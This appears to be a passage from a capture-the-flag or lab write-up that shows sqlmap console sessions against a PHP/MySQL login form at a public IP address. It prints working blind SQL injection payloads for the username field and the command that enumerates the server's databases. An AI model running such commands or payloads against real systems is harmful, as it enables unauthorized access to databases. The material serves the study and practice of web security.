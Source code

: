 ```console
---
[10:38:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.11
[10:38:49] [INFO] fetched data logged to text files under '/root/.sqlmap/output/52.63.238.93'

[*] shutting down at 10:38:49
```
Lets find all of the databases
```console
root@kali:~# sqlmap --data 'username=john&password=john' -p username -u 'http://52.63.238.93/index.php' --dbms=mysql --dbs
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150429}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and
federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:43:06

[10:43:06] [INFO] testing connection to the target URL
[10:43:06] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
    Payload: username=john' RLIKE (SELECT (CASE WHEN (5744=5744) THEN 0x6a6f686e ELSE 0x28 END)) AND 'iSRU'='iSRU&password=john

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: username=john' AND (SELECT * FROM (SELECT(SLEEP(5)))MKmf) AND 'kDJo'='kDJo&password=john
---
[10:43:06] [INFO] testing MySQL
[10:43:06] [INFO] confirming MySQL
[10:43:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0
[10:43:06] [INFO] fetching database names
[10:43:06] [INFO] fetching number of databases
[10:43:06] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[10:43:06] [INFO] retrieved:
[10:43:06] [WARNING] reflective value(s) found and filtering out
4
[10:43:06] [INFO] retrieved: information_schema
[10:43:11] [INFO] retrieved: mysql
[10:43:13] [INFO] retrieved: performance_schema
[10:43:18] [INFO] retrieved: zeropoint
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] zeropoint
```